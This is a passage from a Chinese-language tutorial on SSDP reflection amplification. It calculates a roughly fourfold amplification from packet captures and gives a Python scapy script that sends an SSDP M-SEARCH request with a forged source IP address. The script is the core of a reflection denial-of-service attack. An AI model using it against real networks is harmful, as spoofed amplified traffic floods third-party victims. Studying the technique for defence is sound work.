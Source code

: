 

下面是用WireShark抓取上面请求响应的接口

![img](images/20180808161957fd8bbc1c-f630-4d29-a73f-494c4fe52df9.png)







我们来算一下它放大了多少倍



(289+289)/139=4倍



再来看一下应用层的HTTP协议是怎样的，如果不告诉你底层是UDP协议，这里看上去跟普通的HTTP请求没什么两样，非常熟悉的200响应状态码

​                            ![img](images/2018080816202418e714f0-a206-4599-953d-2cdf3dbb4e1a.png)

注意一下请求包中的ST:upnp:rootdevice这一行，下面我们会将它跟攻击用的请求包做对比



## 3.2. scapy



python的scapy可以很轻松构造并且发送自己构造的四层数据包，用来测试最好不过，直接上代码



```
from scapy.all import *
import random

def send_udp(srcip,dstip):
    x =random.randint(0,65535)
    sendmsg = 'M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:upnp:rootdevice\r\nMan:\"ssdp:discover\"\r\nMX:3\r\n\r\n'
    i =IP()
    i.dst=dstip
    i.src=srcip
    u=UDP()
    u.dport=1900
    u.sport=x
    send(i/u/sendmsg)
    print 'success'

if __name__ == '__main__':
    send_udp('1.1.1.1','2.2.2.2')
```